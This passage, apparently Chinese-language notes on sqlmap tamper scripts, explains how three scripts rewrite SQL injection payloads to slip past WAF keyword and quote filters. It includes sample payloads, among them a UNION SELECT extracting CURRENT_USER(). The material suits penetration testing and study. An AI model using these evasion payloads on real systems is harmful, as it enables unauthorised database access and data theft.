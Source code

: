 **2:apostrophenullencode.py**

作用：绕过过滤双引号，替换字符和双引号。

示例：

```
"1 AND '1'='1"
'1 AND %00%271%00%27=%00%271'
```

在以下版本做过测试:

```
MySQL 4, 5.0 and 5.5
Oracle 10g
PostgreSQL 8.3, 8.4, 9.0
```

# 针对过滤关键字的：

**1:halfversionedmorekeywords.py**

作用：当数据库为`mysql`时绕过防火墙，每个关键字之前添加`mysql`版本评论

示例：

```
("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa") "value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa"
```

版本要求:

```
MySQL < 5.1
在以下版本做过测试:
MySQL 4.0.18, 5.0.22
```

**2:ifnull2ifisnull.py**

作用：绕过对`IFNULL`过滤。 替换类似`’IFNULL(A, B)’为’IF(ISNULL(A), B, A)’`

示例：

```
'IFNULL(1, 2)'
'IF(ISNULL(1),2,1)'
```

版本要求:

```
MySQL
SQLite (possibly)
SAP MaxDB (possibly)
在以下版本做过测试:
MySQL 5.0 and 5.5
```
